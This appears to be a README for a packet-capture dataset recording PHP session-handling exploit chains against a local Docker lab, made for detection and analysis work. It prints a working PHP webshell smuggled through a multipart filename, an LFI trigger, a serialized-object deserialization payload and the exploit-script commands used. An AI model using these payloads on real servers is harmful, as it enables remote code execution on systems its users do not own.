



# php2shell-poc pcap capture: baseline + all three RCE chains

Network capture of the [php2shell](https://github.com/ikow/php2shell-poc) lab
running baseline traffic followed by all three verified attack chains
(CVE-2026-109618 / CVE-2026-109619).

**Originator:** [Qi Deng](https://github.com/ikow)
**Upstream repo:** [ikow/php2shell-poc](https://github.com/ikow/php2shell-poc)
**Lab fork used:** [GoldraK/php2shell-poc](https://github.com/GoldraK/php2shell-poc)
**Writeup:** [qideng.substack.com](https://qideng.substack.com/p/php2shell-dissecting-phps-critical)

---

## What is in the capture

Two tap points, same traffic:

| File | Tap point | Packets | Linktype | What it shows |
|------|-----------|---------|----------|---------------|
| `inside.pcap` | nginx container `eth0` (Docker bridge) | 304 | Ethernet | `192.168.65.1` -> `172.18.0.3:80`, original MACs, full frame |
| `outside.pcap` | host `lo0` (port-forward path) | 329 | BSD loopback | `127.0.0.1` -> `127.0.0.1:18080`, no L2 header |

`php2shell-baseline-attack.pcap` is an earlier single-tap capture from the nginx container, superseded by `inside.pcap`.

The capture is split into two phases:

### Baseline (5 requests)

Normal, benign HTTP GETs against every lab endpoint so a detector or analyst
has a baseline of what traffic looks like before the attack:

| Endpoint | Purpose |
|----------|---------|
| `GET /index.php` | Session endpoint (calls `session_start()`) |
| `GET /nosession.php` | Endpoint with no session logic |
| `GET /app/upload.php` | Chain C writer directory (no session) |
| `GET /api/endpoint.php` | Chain C reader directory |
| `GET /e_shell.php?c=id` | Chain E reader (no session file planted yet) |

### Attack (17 requests)

All three RCE chains, each confirmed with `uid=33(www-data)`:

| Chain | Packets | What happens |
|-------|---------|-------------|
| A (session injection + LFI) | 54, 64-87, 102, 175-200 | Multipart POST smuggles `<?php ...?>` as a filename into the session file via `upload_progress`, then LFI includes the session file |
| A-prime (cleanup=On race) | 175, 188-200 | Same as A but keeps the upload open (256 KB slow transfer) so the session file survives `upload_progress.cleanup=On` |
| C (handler mismatch) | 211-265 | Stores `zz\|O:4:"Evil":1:{...}` in a session variable under `php_serialize`, then reads it back under the `php` handler which deserializes the object and fires `__destruct()` |
| E (decode failure) | 275-296 | Session file pre-planted via `docker exec` (not visible on the wire); the GET to `/e_shell.php` triggers `session_start()` which decodes the file, fails on trailing data, and runs `__destruct()` during request startup |

## The smoking guns

Three packets tell the whole story:

### Packet 54 - Chain A payload

A single `POST /index.php` that contains all three elements of the exploit:

```
Cookie: PHPSESSID=p2s711169be6381c7e6449ed546
Content-Type: multipart/form-data; boundary=----p2s...

--boundary
Content-Disposition: form-data; name="PHPSESSID"

p2s711169be6381c7e6449ed546
--boundary
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

x
--boundary
Content-Disposition: form-data; name="f"; filename="<?php echo chr(1);if(isset($_GET['c'])){system($_GET['c']);exit;}?>"
Content-Type: application/octet-stream

Z
--boundary--
```

- `PHPSESSID` as a form field (not just a cookie) fixes the session ID,
  bypassing `use_only_cookies`.
- `PHP_SESSION_UPLOAD_PROGRESS` triggers PHP's rfc1867 upload-progress
  handler, which stores the multipart filename **verbatim** into the
  session file at `/tmp/sessions/sess_<sid>`.
- The filename is `<?php echo chr(1);if(isset($_GET['c'])){system($_GET['c']);exit;}?>`
  - a PHP webshell.

No application code is involved in writing the payload. PHP's own
`session.upload_progress` handler does it.



*Wireshark view of packet 54. The bottom pane shows the decoded multipart
body with the `filename=` field highlighted in blue:
`filename="<?php echo chr(1);if(isset($_GET['c'])){system($_GET['c']);exit;}?>"`.
The hex dump on the right shows the raw bytes. The top pane shows the
surrounding TCP handshake (packets 52-53), the POST request (54), the 200
response (56), and the subsequent LFI trigger at packet 64
(`GET /vuln.php?page=/tmp/sessions/sess_p2s711169be6381c7e6449ed546&c=echo%20P2S_RCE_OK`).*

### Packet 64 - Chain A LFI trigger

```
GET /vuln.php?page=/tmp/sessions/sess_p2s711169be6381c7e6449ed546&c=echo%20P2S_RCE_OK
```

The LFI sink (`include($_GET['page'])`) includes the session file, which now
contains the PHP from packet 54. The response (packet 77) contains the
serialized session header followed by `uid=33(www-data) gid=33(www-data)
groups=33(www-data)`.

### Packet 211 - Chain C poison

```
GET /app/write.php?k=x&v=zz%7CO%3A4%3A%22Evil%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A12%3A%22echo%20P2S_OK%3B%22%3B%7D
```

URL-decoded, the `v` parameter is:

```
zz|O:4:"Evil":1:{s:3:"cmd";s:12:"echo P2S_OK;";}
```

This is stored in a session variable under the `php_serialize` handler (the
`/app` directory), where the pipe `|` is just data inside a length-prefixed
string. Packet 221 reads the same session via `/api/endpoint.php`, which uses
the `php` handler. That decoder splits at `|`, deserializes the `Evil` object,
and `__destruct()` fires - the command runs. Packet 223's response shows both
the side effect (`Warning: session_start(): Failed to decode session object`)
and the command output.

## How the capture was made

### Lab

The lab is a two-container Docker setup from the
[GoldraK/php2shell-poc](https://github.com/GoldraK/php2shell-poc) fork:

```
lab/setup.sh
```

- **php2shell-lab** - `php:8.2.35-fpm` with a single static FPM worker
  (`pm.max_children=1`), `session.upload_progress.enabled=On`,
  `session.use_strict_mode=Off`, `session.use_only_cookies=Off`,
  `session.save_path=/tmp/sessions`.
- **php2shell-nginx** - `nginx:alpine` fronting the FPM container on
  port 18080.

The single-worker config is important: it keeps every request on the same
process so the session file written by one request is the one the next
request reads.

### Traffic generation

All exploit traffic was generated from the host machine (macOS) using the
fork's Python exploit scripts:

```bash
# Baseline
curl http://127.0.0.1:18080/index.php
curl http://127.0.0.1:18080/nosession.php
curl http://127.0.0.1:18080/app/upload.php
curl http://127.0.0.1:18080/api/endpoint.php
curl http://127.0.0.1:18080/e_shell.php?c=id

# Chain A (session injection + LFI)
python3 poc/exploit_chain_a.py --target http://127.0.0.1:18080 --cmd id

# Chain A-prime (cleanup=On race)
python3 poc/exploit_chain_a.py --target http://127.0.0.1:18080 --cmd id \
    --race --race-seconds 6 --race-padding 262144 --race-delay 0.02

# Chain C (handler mismatch)
python3 poc/exploit_chain_c.py --target http://127.0.0.1:18080 --cmd id

# Chain E (decode failure) - session file planted via docker exec
python3 poc/exploit_chain_e.py --target http://127.0.0.1:18080 --cmd id
```

All five chains returned `uid=33(www-data)`.

### Packet capture

Two tap points were used simultaneously:

**Inside the Docker network (nginx container):**

```bash
docker exec php2shell-nginx apk add --no-cache tcpdump
docker exec -d php2shell-nginx sh -c \
    'tcpdump -i eth0 -nn -s 0 -w /tmp/inside.pcap "tcp port 80"'
```

**Outside the Docker network (host loopback):**

```bash
sudo tcpdump -i lo0 -nn -s 0 -w /tmp/outside.pcap "tcp port 18080"
```

The inside capture sees the Docker bridge traffic with the original source
IP (`192.168.65.1`, the Docker Desktop NAT gateway) and destination
(`172.18.0.3:80`, the nginx container). The outside capture sees the
port-forward path on the host loopback (`127.0.0.1:18080`), which is
fully isolated from the home network.

Both captures were stopped with `SIGINT` and copied out:

```bash
docker exec php2shell-nginx pkill -INT tcpdump
docker cp php2shell-nginx:/tmp/inside.pcap ./inside.pcap

sudo pkill -INT tcpdump
cp /tmp/outside.pcap ./outside.pcap
```

Capturing from inside the nginx container (rather than on the host) was
necessary because:

- macOS does not allow raw packet capture on `lo0` without `sudo`, and
  the Docker Desktop VM does not expose a host-level bridge interface.
- The Docker bridge network (`172.18.0.0/16`) is a separate L2 segment
  inside the Docker Desktop VM. Traffic from the host to a container
  does not traverse any host-visible bridge.
- Inside the nginx container, `tcpdump` runs as root and sees every
  packet on the bridge, with the original source IP intact.

The `inside.pcap` is in standard Ethernet-frame format (LINKTYPE_ETHERNET).
The `outside.pcap` is in BSD loopback format (DLT_NULL) because it was
captured on `lo0`. Both are readable by Wireshark, tshark, or any pcap
tool.

### Teleseer analysis

The pcap was also loaded into [Teleseer](https://go.teleseer.com) (project
`GoldraK/php2shell-poc`) for network visibility and host inventory.



*Teleseer packet inspector. Packet 54 (highlighted in the table, 728 bytes
from `192.168.65.1:28464` to `172.18.0.3:80`) is selected in the inspector
on the right. The TCP payload hex dump shows the multipart filename field
with the PHP code: `name="f"; filename="<?php ec...` and
`system($_GET['c` - the same Chain A payload shown in the Wireshark
screenshot above.*



*Teleseer network map. Two hosts are visible on the Docker bridge segment:
the attacker host `192.168.65.1` (source of all exploit traffic) and the
lab nginx container `172.18.0.3` (destination, running on `127.0.0.1` via
the Docker port mapping). The timeline at the bottom shows the Web protocol
activity (295.7 KB) concentrated in the attack window.*

## Verification

```bash
# Packet counts
tshark -r inside.pcap 2>/dev/null | wc -l    # 304
tshark -r outside.pcap 2>/dev/null | wc -l   # 329

# Confirm no home network IPs (should return only lab IPs)
tshark -r inside.pcap -T fields -e ip.src -e ip.dst 2>/dev/null | sort -u
tshark -r outside.pcap -T fields -e ip.src -e ip.dst 2>/dev/null | sort -u

# List all HTTP requests
tshark -r inside.pcap -Y "http.request" 2>/dev/null

# Inspect the Chain A payload (packet 54)
tshark -r inside.pcap -Y "frame.number==54" -V 2>/dev/null

# Inspect the Chain C poison (packet 211)
tshark -r inside.pcap -Y "frame.number==211" -V 2>/dev/null

# Find all RCE confirmations
tshark -r inside.pcap -Y "http.response && http contains \"uid=33\"" 2>/dev/null
```

## Lab endpoint reference

| Path | Handler | Session serialize handler | Role |
|------|---------|--------------------------|------|
| `/index.php` | FPM | `php` (default) | Upload sink (Chain A) |
| `/nosession.php` | FPM | n/a | Baseline |
| `/vuln.php` | FPM | n/a | LFI sink (Chain A) |
| `/app/write.php` | FPM | `php_serialize` (`.user.ini`) | Session writer (Chain C) |
| `/api/endpoint.php` | FPM | `php` (`.user.ini`) | Session reader (Chain C) |
| `/e_shell.php` | FPM | `php` (default) | Output page (Chain E) |

## Note on Chain E

Chain E requires planting a session file on the target's filesystem
(`/tmp/sessions/sess_<sid>`). In this lab the exploit does that via
`docker exec` into the FPM container, which is a local write primitive not
visible on the network. The capture therefore shows only the GET requests
that trigger the decode failure and `__destruct()` (packets 275-296), not
the file-planting step. In a real-world scenario, the write primitive would
be whatever file-write vulnerability the application exposes.

## Credits

- **Qi Deng** - original vulnerability research, exploit development, and
  writeup. All three chains verified end-to-end against the bundled lab.
  See [ikow/php2shell-poc](https://github.com/ikow/php2shell-poc) and
  [qideng.substack.com](https://qideng.substack.com/p/php2shell-dissecting-phps-critical).
- **GoldraK** - fork with the interactive-shell exploit scripts and
  `run_all.sh` runner used to generate this capture. See
  [GoldraK/php2shell-poc](https://github.com/GoldraK/php2shell-poc).
- **Steve Henderson** - lab setup, traffic generation, packet capture, and
  Teleseer analysis for this repo.
- **Teleseer** - network visibility and packet inspection via
  [go.teleseer.com](https://go.teleseer.com).

## License

MIT (inherited from upstream).
